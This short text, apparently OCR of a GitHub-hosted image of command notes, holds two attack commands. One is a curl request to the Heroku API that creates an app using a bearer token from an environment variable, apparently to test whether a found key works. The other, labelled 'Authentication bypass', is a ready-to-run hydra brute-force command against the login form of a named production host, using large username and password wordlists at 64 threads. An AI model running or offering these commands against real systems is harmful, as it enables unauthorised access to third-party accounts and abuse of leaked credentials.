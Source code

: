 

Heroku API check 
`curl -X POST https://api.heroku.com/apps -H "Accept: application/vnd.heroku+json; version=3" -H "Authorization: Bearer $HEROKU_API_KEY"`

hydra usage/ Authentication bypass
`sudo hydra -L 10k-usernames.txt -P password-biglist.txt -u -f  minimap-fusion.prod.lt.tomtom-global.com  https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -V -t 64`